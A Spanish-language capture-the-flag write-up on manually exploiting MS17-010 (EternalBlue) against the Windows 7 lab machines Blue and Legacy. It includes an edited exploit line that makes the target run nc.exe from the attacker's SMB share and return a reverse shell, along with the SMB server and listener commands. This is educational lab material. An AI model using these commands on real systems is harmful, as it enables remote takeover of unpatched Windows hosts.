







# Blue y Legacy

> **Sistema operativo:** Windows  
> **Máquinas:** Blue y Legacy

## Índice

- [Enumeración](#enumeración)
- [Acceso inicial](#acceso-inicial)
- [Conclusión](#conclusión)

## Enumeración

Estas dos máquinas se resuelven igual. Vamos a ver cómo explotar manualmente la vulnerabilidad MS17-010.

Escaneo de puertos con Nmap:



Vemos que el puerto 445 (SMB) está abierto y lo primero que podemos hacer es usar NetExec (NXC). Es una herramienta de enumeración y post-explotación de redes Windows, especialmente SMB/Active Directory. Es la evolución de CrackMapExec.



Vemos que estamos frente a un Windows 7. Lo más probable es que sea vulnerable a EternalBlue, así que vamos a comprobarlo.

Como recordatorio, Nmap tiene muchos scripts, todos programados en Lua, y cada script tiene una categoría.

```bash
locate .nse | xargs grep "categories" | grep -oP '".*?"' | sort -u
```

Se puede leer:

locate .nse
    ↓
encuentra archivos .nse
    ↓
xargs grep "categories"
    ↓
busca "categories" dentro de esos archivos
    ↓
grep -oP '".*?"'
    ↓
extrae lo que esté entre comillas
    ↓
sort -u
    ↓
ordena y elimina duplicados



Si fusionamos las categorías `vuln` y `safe` para que funcionen como comprobaciones (así evitamos posibles DDoS), obtenemos lo siguiente:



Vemos que MS17-010 es vulnerable. Se puede explotar con Metasploit o manualmente. Yo lo he hecho manualmente.

Buscando por Internet, he encontrado que se puede utilizar un exploit llamado `zzz_exploit.py` (GitHub).



Clonamos el repositorio y abrimos el archivo para editar una cosa:


Tenemos que dejar comentadas las líneas 975 a 979 para que no se ejecuten. Lo único que hacen es crear un archivo en el recurso compartido `C$`, pero nosotros queremos conseguir una shell.

Para conseguirla, tenemos que editar la línea 982:

```python
service_exec(conn, r'cmd /c \\10.10.14.144\smbFolder\nc.exe -e cmd 10.10.14.144 443')
```

Desglosada:

1. service_exec(conn, ...)

Es una función del exploit que utiliza la conexión `conn` para ejecutar un comando en la máquina Windows objetivo mediante el mecanismo de servicios de Windows.

Es decir:

Parrot → SMB → Windows → ejecuta comando
2. r'...'

La r significa raw string en Python.

```python
r'\\10.10.14.144\smbFolder\nc.exe'
```

Hace que las barras \ se interpreten literalmente y no como escapes de Python.

3. `cmd /c`

```cmd
cmd /c <comando>
```

Le dice a Windows:

Abre cmd.exe, ejecuta este comando y termina.

4. `\\10.10.14.144\smbFolder\nc.exe`

Esta es una ruta UNC de Windows:

```text
\\IP\recurso\archivo
```

En este caso:

```text
\\10.10.14.144\smbFolder\nc.exe
```

significa:

Accede al recurso SMB `smbFolder`, que está compartido en nuestro equipo con `impacket-smbserver`, y ejecuta `nc.exe`.

Por tanto, cuando la máquina víctima se conecte a nuestro recurso compartido a nivel de red y ejecute Netcat, nos enviará una consola interactiva a nuestro equipo por el puerto que indiquemos.

También es muy importante indicar el usuario para que funcionen los pipes.



## Acceso inicial

Una vez configurado el script, podemos ejecutarlo de la siguiente forma:

1. Creamos nuestro recurso compartido a nivel de red:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```

estás diciendo:

“Quiero que esta carpeta de mi Parrot esté disponible para otras máquinas a través de la red usando SMB.”

¿Qué significa “a nivel de red”?

Normalmente una carpeta de tu Parrot es local:

Parrot
└── /home/pablo/content
    └── nc.exe

Solo tu propio sistema accede a ella directamente mediante:

/home/pablo/content/nc.exe

Pero al crear el SMB server:

impacket-smbserver smbFolder $(pwd) -smb2support

esa misma carpeta pasa a ser accesible desde otra máquina mediante la red.

Windows podría verla como:

\\<ip de nuestro equipo>\smbFolder

Es decir:

              RED
Windows ───────────────────> Parrot
                              │
                              └── smbFolder
                                  └── nc.exe


2. Nos ponemos a la escucha en el puerto indicado en el script, que será el que nos proporcione la consola interactiva:

```bash
rlwrap nc -nlvp 443
```

3. Ejecutamos el script:



Ya tenemos acceso como `NT AUTHORITY\SYSTEM`. Las flags están en los directorios; no hay que hacer nada más.


## Conclusión

Explotación manual de EternalBlue.